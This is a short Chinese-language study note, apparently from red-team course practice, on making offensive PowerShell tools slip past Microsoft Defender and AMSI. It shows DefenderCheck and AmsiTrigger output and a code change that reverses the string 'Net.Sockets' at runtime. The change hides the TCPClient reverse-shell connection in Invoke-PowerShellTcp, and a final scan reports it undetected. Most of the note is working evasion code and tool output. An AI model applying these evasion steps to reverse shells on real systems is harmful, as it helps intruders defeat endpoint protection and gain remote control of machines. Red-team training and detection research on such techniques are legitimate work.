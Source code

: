 ```
000000D0   69 4C 54 66 77 7A 7A 56  37 6F 58 58 33 2F 2F 38   iLTfwzzV7oXX3//8
000000E0   6E 44 78 77 57 67 48 55  45 41 41 51 41 41 41 4F   nDxwWgHUEAAQAAAO
000000F0   76 6A 7A 4D 7A 4D 7A 4D  7A 4D 7A 4D 7A 4D 7A 4D   vjzMzMzMzMzMzMzM

```


思路也是逆序字符串,再次检查，已通过
```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe PowerUp.ps1

OriginalFileDetectionStatus is : NoThreatFound
[+] No threat found in submitted file!
```

### Invoke-PowerShellTcp

1. AmsiTrigger_x64检查Invoke-PowerShellTcp

```
D:\BaiduNetdiskDownload\CRTE\Tools>AmsiTrigger_x64.exe -i Invoke-PowerShellTcp_Old.ps1
[+] "username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location)"
[+] "$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()"
```

这里有点奇怪是检查到有问题的是上面的片段，但真正有问题的代码片段（按照教程所说）应该是
```
 if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }
```

需要逆序字符串替换成
```
 $String = "stekcoS.teN"
        $class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
        if ($Reverse)
        {
            $client = New-Object System.$class.TCPClient($IPAddress,$Port)
        }
```

再次检查
```
D:\BaiduNetdiskDownload\CRTE\Tools>AmsiTrigger_x64.exe -i Invoke-PowerShellTcp_Old.ps1
[+] AMSI_RESULT_NOT_DETECTED
```
